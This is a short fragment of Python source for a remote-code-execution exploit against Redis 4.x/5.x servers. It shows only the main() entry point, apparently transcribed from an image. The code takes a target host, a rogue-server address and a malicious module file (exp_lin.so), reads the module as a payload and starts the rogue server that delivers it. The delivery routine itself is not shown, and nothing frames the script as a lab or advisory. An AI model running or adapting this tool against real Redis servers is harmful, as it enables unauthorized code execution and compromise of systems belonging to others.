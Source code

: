```python

def main():
    parser = argparse.ArgumentParser(description='Redis 4.x/5.x RCE with RedisModules')
    parser.add_argument("-r", "--rhost", dest="rhost", type=str, help="target host", required=True)
    parser.add_argument("-p", "--rport", dest="rport", type=int,
                        help="target redis port, default 6379", default=6379)
    parser.add_argument("-L", "--lhost", dest="lhost", type=str,
                        help="rogue server ip", required=True)
    parser.add_argument("-P", "--lport", dest="lport", type=int,
                        help="rogue server listen port, default 21000", default=21000)
    parser.add_argument("-f", "--file", type=str, help="RedisModules to load, default exp.so", default='exp_lin.so')
    parser.add_argument("-a", "--auth", dest="auth", type=str, help="redis password")
    parser.add_argument("-v", "--verbose", action="store_true", help="show more info", default=False)
    options = parser.parse_args()
    # runserver("127.0.0.1", 6379, "127.0.0.1", 21000)

    print("[*] Connecting to  {}:{}...".format(options.rhost, options.rport))
    global payload, verbose, filename, auth
    auth = options.auth
    filename = options.file
    verbose = options.verbose
    if os.path.exists(filename) == False:
        print("\033[1;31;m[-]\033[0m Where you module? ")
        exit(0)
    payload = open(filename, "rb").read()
    runserver(options.rhost, options.rport, options.lhost, options.lport)


if __name__ == '__main__':
    print(LOGO)
    main()

```